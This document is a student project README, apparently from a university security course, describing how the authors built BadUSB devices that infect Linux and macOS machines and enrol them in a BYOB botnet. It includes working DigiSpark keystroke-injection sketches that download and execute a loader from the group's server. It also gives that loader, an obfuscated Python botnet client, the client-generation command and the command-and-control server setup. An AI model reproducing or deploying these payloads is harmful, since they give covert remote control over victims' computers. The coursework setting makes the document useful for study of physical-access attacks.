

# CSUS CSC154: Project

## Objective  
The objective of this project was to create BadUSB devices, that upon plugin, infect victim computers with malware configured to join a botnet.

## BadUSB  
To create our BadUSB devices we've used the [DigiSpark](http://digistump.com/products/1) development board by [Digistump](http://digistump.com/). These devices are recognized as USB keyboards by the victims' machines, and will execute keystrokes to deliver our payload.

### DigiSpark Setup 
We've purchased our BadUSB (DigiSpark) devices via Amazon. We have 12 of these devices spread across our members. They cost about $3 dollars each. 


**Figure 1:** DigiSpark boards on Amazon.

In order to program our USB devices we've installed the [Arduino IDE](https://www.arduino.cc/en/Main/Software).  

**Figure 2:** Download the Arduino IDE.

We've then configured the Arduino IDE to include the DigiSpark board, so that we may use the `DigiKeyboard.h` library.   

**Figure 3:** Add DigiStump board manager url to configuration.


**Figure 4:** Board manager downloading DigiStump's board libraries.


**Figure 5:** Set board to Digispark Default.


### Linux Payload

The following code is what we've developed to infect Linux machines upon plugin.

```c
#include "DigiKeyboard.h"


/***
 * 
 * This is an attack for Linux machines. It opens up a terminal window. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 * 
 ***/

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
}

void loop() {}
```

As you can see above, the code delays for two seconds to allow the machine to register the device. After that it executes keystrokes to open up the terminal, and waits .6 seconds. Next it executes shell commands to download our bash script called `linux_loader` from the server. It then sets the script to executable, and executes it as a background process before exiting.

The code for our `linux_loader` and `linux_payload.py` can be found in the section below.


#### Loader  
Our BadUSB attack downloads and executes the loader script. For our attack on Linux and OSX machines this is a bash script called `linux_loader`, which can be found below.

```bash
#!/bin/bash
nohup wget https://sheep.casa/payloads/linux_payload.py -P /tmp && python /tmp/linux_payload.py
```

The loader script downloads our python payload and executes it to join our botnet. This script is run in the background so that the terminal window is not present while the botnet client (payload) is running.

#### Python Payload for Botnet

A payload is generated via BYOB's `client.py` script. We've generated our Linux payload by issuing `python client.py --name linux_payload --encrypt --compress --freeze sheep.casa 1337`.


**Figure 9:** Generating our python payload.

In order to host our payloads, we've installed Apache 2 on the C&C server. In a real world attack this would be pretty bad practice, but it's a matter of convenience for us. The payload generated above was moved from BYOB's directory to `/var/www/html/payloads`. This is where our victims will download the payload from.


**Figure 10:** `/payloads` directory hosting our malicious files.


Below is our `linux_payload.py` file generated by BYOB.  

```python
import sys,zlib,base64,marshal,json,urllib
if sys.version_info[0] > 2:
    from urllib import request
urlopen = urllib.request.urlopen if sys.version_info[0] > 2 else urllib.urlopen
exec(eval(marshal.loads(zlib.decompress(base64.b64decode('eJwrtmBgYCgtyskvSM3TUM8oKSmw0tcvzkhNLdBLTixOtDI0NrYACpQkpqcWFesXJCfqFVSqa+oVpSamaGgCAFaFE3g=')))))
```


### Mac (OSX) Payload
In order to prevent the keyboard configuration dialog box from appearing when the DigiSpark is plugged into an Apple computer, we must configure the DigiSpark to appear as if it's an Apple keyboard.

VID and PID are defined in the file `~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/usbconfig.h`. We will replace the existing file with our [modified Apple version](./scripts/Digispark/usbconfig.h) when compiling the script for OSX. When we change Vendor Name and Device Name, we also have to adapt the constants for the name length.

The following code is what we've developed thus far to infect Apple OSX machines upon plugin.  
```c
#include "DigiKeyboard.h"

/***
 * 
 * This is an attack for Mac (OSX) machines. It opens up a terminal window, and executes the bash command. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 * 
 ***/

#define MOD_CMD_LEFT 0x00000008

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("terminal");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("bash");
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(500);
  DigiKeyboard.println("disown $!");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_Q, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(10000);
}

void loop() {

}
```

As you can see above, is very similar to what we've used to exploit Linux machines. The major difference is the way the terminal is opened. We've had to modify our OSX version to use `DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT);`, which will open Spotlight search. The code will delay for .5 seconds, and search "terminal", delay for .5 seconds, and press enter, opening the terminal.

After this, in order to ensure we aren't using Z Shell, we'll enter `bash`. From this point on the rest of the code is exactly the same as our Linux payload.  

 
#### Windows 
TODO POWERSHELL!!!!!? Precompile python??


## Botnet  
For our botnet we're using [Build Your Own Botnet](https://github.com/malwaredllc/byob). Our ultimate goal was an easily deployed and managed *command and control server*, with the ability to generate cross platform compatible clients.


### Command and Control Server  
* [Digital Ocean](https://digitalocean.com)
* [Domain Name](https://sheep.casa)
* [BYOB](https://github.com/malwaredllc/byob)


We've created a VPS on Digital Ocean to run our C&C server. We're using an Ubuntu 18.04 droplet at the cost of $5 per month. Additionally, we've purchased the domain `sheep.casa`, and directed it towards our C&C server.


**Figure 6:** Botnet C&C server droplet on Digital Ocean.


**Figure 7:** ASCII sheep, just for fun.


The botnet framework we're currently using (BYOB) was installed via `git clone git@github.com:malwaredllc/byob.git && cd ./byob/byob && pip install -r requirements.txt &&  mv ../../byob /opt/`. This clones the repository, installs the required python modules, and moves the directory to into `/opt`.  

To launch the botnet we've created a bash script setting the host to `sheep.casa` and the listening port to `1337`. This script is placed in the `/root` directory. 

```bash
#!/bin/bash
cd /opt/byob/byob && python server.py --port 1337
```


**Figure 8:** Botnet server running, no current sessions.

## Examples

### Linux 
Below is an example of a client connecting to the C&C server. This is actually Ryan's laptop connecting, after plugging the BadUSB device into it. 


\ **Figure 11:** Session on x at wartop (Ryan's Laptop).  

### OSX  
TODO

### Windows   
TODO


## References
This section is incomplete (obviously). Will finish later.

1. [DigiSpark Apple Keyboard Mod](https://digistump.com/board/index.php?topic=2612.0)